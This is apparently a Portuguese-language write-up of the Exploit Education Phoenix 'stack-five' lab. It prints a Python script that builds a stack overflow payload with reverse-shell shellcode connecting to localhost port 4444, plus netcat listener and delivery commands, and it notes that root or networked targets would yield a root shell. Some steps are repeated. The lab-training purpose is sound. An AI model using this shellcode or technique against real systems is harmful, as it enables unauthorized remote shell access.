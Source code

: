 > Eu removi o **b""** pq tava dando problema :(

Agora basta gerar o exploit: `python /tmp/exploit.py`

Abrir um novo terminal: `ssh -p 2222 user@localhost`

Terminal 1: `nc -lvnp 4444`

Terminal 2: `cat /tmp/exploit | ./stack-five` 

Agora, no terminal 1 deve ter uma shell :D

![](https://raw.githubusercontent.com/0xturazzi/Writeups/master/ExploitEducation-Phoenix-PT-BR-%20%F0%9F%87%A7%F0%9F%87%B7/img/stack%20five/Exploit_working.png)

> Dica: `bash -ip` vai deixar a sua shell mais usavel

Se nos tivessemos executado o programa como root, a nossa shell teria esses privilegios elevados ! :D

![](https://raw.githubusercontent.com/0xturazzi/Writeups/master/ExploitEducation-Phoenix-PT-BR-%20%F0%9F%87%A7%F0%9F%87%B7/img/stack%20five/root_exploit.png)

`UID = 0` quer dizer que possuimos privilegios de root, mesmo que o `whoami` não tenha dito root

E se o programa estivesse exposto para a rede, poderiamos conseguir uma root shell remota :D (spoiler para os proximos desafios hehehe)

---

Você chegou até aqui :D

Toma mais um gif de panda como presente

![](https://raw.githubusercontent.com/0xturazzi/Writeups/master/ExploitEducation-Phoenix-PT-BR-%20%F0%9F%87%A7%F0%9F%87%B7/img/panda_slide_0.gif)

# 💫 Solução

> vim /tmp/exploit.py
```
buf =  ""

# shellcode
buf += "\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48"
buf += "\x97\x48\xb9\x02\x00\x11\x5c\x7f\x00\x00\x01\x51\x48"
buf += "\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e"
buf += "\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58"
buf += "\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48"
buf += "\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05"

# Filler
buf += 'A' * (136 - len(buf))

# ret
buf += '\x81\x04\x40'

open("/tmp/exploit","wb").write(buf)
```

Agora basta gerar o exploit: `python /tmp/exploit.py`

Abrir um novo terminal: `ssh -p 2222 user@localhost`

Terminal 1: `nc -lvnp 4444`

Terminal 2: `cat /tmp/exploit | ./stack-five` 

Agora, no terminal 1 deve ter uma shell :D

